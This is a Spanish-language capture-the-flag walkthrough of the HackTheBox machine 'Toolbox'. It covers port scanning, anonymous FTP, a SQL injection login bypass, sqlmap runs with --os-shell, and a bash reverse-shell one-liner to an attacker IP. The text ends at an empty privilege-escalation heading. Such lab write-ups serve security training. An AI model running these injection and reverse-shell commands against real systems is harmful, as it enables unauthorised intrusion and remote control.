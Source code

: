 #by d4l1

<p align="center"><img src=""></p>

<h1 align="center">Toolbox</h1>

# ÍNDICE

# INICIO

Toolbok es una máquina windows fácil con un docker instalado, Usado como contenedor de host de linux, este servidor tiene un sitio y una vulnerabilidad de SQL. Esto hace que el mismo contenedor. Tenga unas contraseñas predefinidis y acedamos con una shell al hosts.

Como siempre el test de conectividad

![image](https://github.com/D4l1-web/HTB/assets/79869523/50068644-51e5-40d5-b714-c84b7090a31a)

Escaneo de puertos

![image](https://github.com/D4l1-web/HTB/assets/79869523/866d02f5-c2d2-4396-b3a9-fbaccbadcb19)

Nos encontramos con un ftp con anonymous un ssh y varios puertos importantes como un rpc un apache, un smb, un wrm o un netbios.

Es una máquina windows pero tiene un apache en un servidor debian jaja.

Esto indica virtualización.

Vemos un ftp con el modo pasivo a ver si nos podemos conectar con anonymous/anonymous

![image](https://github.com/D4l1-web/HTB/assets/79869523/f807d829-465d-4b70-b77a-0983320de6b6)

Nos encontramos con un archivo exe visible seguramente funcionando en el servidor docker

si nos vamos al puerto 443 https encontramos una página.

Si exploramos la página encontraremos el certificado ssl con un vhost

![image](https://github.com/D4l1-web/HTB/assets/79869523/0755ffa8-f27b-46b3-b615-2fdb63d96611)

la añadimos
```
echo "ip admin.megalogistic.com" | sudo tee -a /etc/hosts
```
Nos encontramos con esto 
![image](https://github.com/D4l1-web/HTB/assets/79869523/01694c46-705e-4acb-bdc5-8c5d2828a3d7)

Vemos un login visible, y podemos intentar sql injeccion básicos como un admin' or 1=1 -- o alguno a sí. ESTAMOS DENTRO JAJ

![image](https://github.com/D4l1-web/HTB/assets/79869523/b16f57e2-939a-4ff2-a2eb-b50759bd9e0d)

Esto nos ha dado acceso al dashboard del administrador

Primero famos a coger una request de esta misma y la pasaremos por sqlmap para enumerar la base de datos y si encontramos algo.

![image](https://github.com/D4l1-web/HTB/assets/79869523/1efc874c-917d-4cad-a02b-88108ac76323)

Nos cogemos la consulta y nos copiamos el fichero


![image](https://github.com/D4l1-web/HTB/assets/79869523/53ea6d4f-cdcd-43b4-9673-130ea2ddc793)
![image](https://github.com/D4l1-web/HTB/assets/79869523/2da66f7b-6176-4b07-ab82-3bbb33491140)

```
sqlmap -r toolbox.req --risk=3 --level=3 --batch --force-ss
```

Nos indica que tenemos una injeccion identificada.

![image](https://github.com/D4l1-web/HTB/assets/79869523/7adbb25b-a1a0-47f7-a9b5-7c66d8084b11)

```
sqlmap -r toolbox.req --risk=3 --level=3 --batch --force-ssl --os-shell
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/3d7db877-9258-4559-ac23-c83fa9d00015)

Ahora podemos ejecutar una reverse bash para ganar acceso al servidor.

```
bash -c 'bash -i >& /dev/tcp/10.10.14.22/4444 0>&1'
```

![image](https://github.com/D4l1-web/HTB/assets/79869523/25077692-b53e-47bd-b1e8-c078701fcd60)

![image](https://github.com/D4l1-web/HTB/assets/79869523/2f4a106c-9e2b-44bd-a4e9-46e76543d5b2)


## ESCALADA DE PRIVILEGIOS



